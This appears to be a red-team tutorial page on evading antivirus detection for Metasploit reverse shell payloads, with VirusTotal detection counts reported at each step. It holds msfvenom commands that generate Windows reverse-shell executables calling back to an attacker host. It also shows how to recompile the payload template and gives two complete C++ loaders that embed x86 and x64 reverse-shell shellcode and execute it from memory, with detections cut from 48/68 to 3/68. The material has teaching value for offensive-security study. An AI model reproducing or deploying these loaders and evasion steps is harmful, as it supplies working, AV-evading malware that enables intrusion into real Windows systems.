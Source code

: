 # AV Bypass with Metasploit Templates and Custom Binaries

This is a quick look at a couple of simple ways that **attempt** to bypass antivirus vendors for your shellcodes.

## 48/68 detections

For a baseline test, let's generate the standard MSF reverse shell payload for a 32 bit Windows system:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Checking the file in [VirusTotal](https://www.virustotal.com/#/file/ebf62a6140591b6ccf81035a7f06b3a6580144cfa5a9de0ad49dd323c4513ee3/detection) gives the following detection rate:

![](../.gitbook/assets/msf-templates-default-payload.png)

## 36/68 detections

When generating metasploit payloads, our specified shellcode gets injected into the template binaries. The payload we generated earlier got injected into the template for which the source code is provided below:

![](../.gitbook/assets/msf-template.png)

Out of curiosity, let's simply recompile the standard template:

```text
root@/usr/share/metasploit-framework/data/templates/src/pe/exe# i686-w64-mingw32-gcc template.c -lws2_32 -o avbypass.exe
```

...and regenerate the payload using the newly compiled template:

```text
root@~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/avbypass.exe -f exe > /root/tools/avbypass.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 363382 bytes
```

[VirusTotal](https://www.virustotal.com/#/file/c311065c151bdd98efc3c413016a7817f6089985e799121007dd993230c530bd/detection) detections for the new executable dropped from 48 to 36 and that did not require any code change!

![](../.gitbook/assets/msf-template-vt2.png)

## 32/66 detections

If we make a couple of small changes to the code for memory allocation sizes:

![](../.gitbook/assets/msf-template-sizes.png)

...it seems that we can further reduce [VirusTotal](https://www.virustotal.com/#/file/1b2dc633c5709435cd956e214f5417488c04e39ac58ccf5aa8bba4813dc9c005/detection) detections albeit not by much - this time they drop from 36 to 32:

![](../.gitbook/assets/msf-template-vt3.png)

## 8/68 detections - custom x86 binary

Let's do something a bit more custom - build a binary from the previous lab [CreateRemoteThread Shellcode Injection](t1055-process-injection/process-injection.md) that is based on the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```

{% code-tabs %}
{% code-tabs-item title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\xbd\x85\x3b\x76\xa3\xda\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
		"\x52\x31\x6b\x12\x83\xeb\xfc\x03\xee\x35\x94\x56\x0c\xa1\xda"
		"\x99\xec\x32\xbb\x10\x09\x03\xfb\x47\x5a\x34\xcb\x0c\x0e\xb9"
		"\xa0\x41\xba\x4a\xc4\x4d\xcd\xfb\x63\xa8\xe0\xfc\xd8\x88\x63"
		"\x7f\x23\xdd\x43\xbe\xec\x10\x82\x87\x11\xd8\xd6\x50\x5d\x4f"
		"\xc6\xd5\x2b\x4c\x6d\xa5\xba\xd4\x92\x7e\xbc\xf5\x05\xf4\xe7"
		"\xd5\xa4\xd9\x93\x5f\xbe\x3e\x99\x16\x35\xf4\x55\xa9\x9f\xc4"
		"\x96\x06\xde\xe8\x64\x56\x27\xce\x96\x2d\x51\x2c\x2a\x36\xa6"
		"\x4e\xf0\xb3\x3c\xe8\x73\x63\x98\x08\x57\xf2\x6b\x06\x1c\x70"
		"\x33\x0b\xa3\x55\x48\x37\x28\x58\x9e\xb1\x6a\x7f\x3a\x99\x29"
		"\x1e\x1b\x47\x9f\x1f\x7b\x28\x40\xba\xf0\xc5\x95\xb7\x5b\x82"
		"\x5a\xfa\x63\x52\xf5\x8d\x10\x60\x5a\x26\xbe\xc8\x13\xe0\x39"
		"\x2e\x0e\x54\xd5\xd1\xb1\xa5\xfc\x15\xe5\xf5\x96\xbc\x86\x9d"
		"\x66\x40\x53\x31\x36\xee\x0c\xf2\xe6\x4e\xfd\x9a\xec\x40\x22"
		"\xba\x0f\x8b\x4b\x51\xea\x5c\x7e\xa6\xf4\x99\x16\xa4\xf4\xa0"
		"\x5d\x21\x12\xc8\xb1\x64\x8d\x65\x2b\x2d\x45\x17\xb4\xfb\x20"
		"\x17\x3e\x08\xd5\xd6\xb7\x65\xc5\x8f\x37\x30\xb7\x06\x47\xee"
		"\xdf\xc5\xda\x75\x1f\x83\xc6\x21\x48\xc4\x39\x38\x1c\xf8\x60"
		"\x92\x02\x01\xf4\xdd\x86\xde\xc5\xe0\x07\x92\x72\xc7\x17\x6a"
		"\x7a\x43\x43\x22\x2d\x1d\x3d\x84\x87\xef\x97\x5e\x7b\xa6\x7f"
		"\x26\xb7\x79\xf9\x27\x92\x0f\xe5\x96\x4b\x56\x1a\x16\x1c\x5e"
		"\x63\x4a\xbc\xa1\xbe\xce\xcc\xeb\xe2\x67\x45\xb2\x77\x3a\x08"
		"\x45\xa2\x79\x35\xc6\x46\x02\xc2\xd6\x23\x07\x8e\x50\xd8\x75"
		"\x9f\x34\xde\x2a\xa0\x1c";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This time [VirusTotal](https://www.virustotal.com/#/file/f4dfceb473a878a3751513bacb4d44ee460391ce1a668edb5337d4859e767335/detection) detections dropped dramatically to 8/68:

![](../.gitbook/assets/msf-vt5.png)

## 3/68 detections - custom x64 binary

The above binaries were all for a x86 architecture. Let's try generating the shellcode for a x64 system and use the same custom binary:

```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c -b \x00\x0a\x0d
```

{% code-tabs %}
{% code-tabs-item title="inject-local-process.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main()
{
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
		"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
		"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
		"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
		"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
		"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
		"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
		"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
		"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
		"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
		"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
		"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
		"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
		"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
		"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
		"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();

    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

[VirusTotal](https://www.virustotal.com/#/file/d1431f479724822d6ccf8684a99598d966a9b5a964e7bd3886308a0217dea712/detection) now only shows **3/68** detections, which is a great improvement that enables us bypassing most of the popular antivirus vendors:

![](../.gitbook/assets/msf-vt4.png)

{% embed url="https://www.offensive-security.com/metasploit-unleashed/backdooring-exe-files/" %}

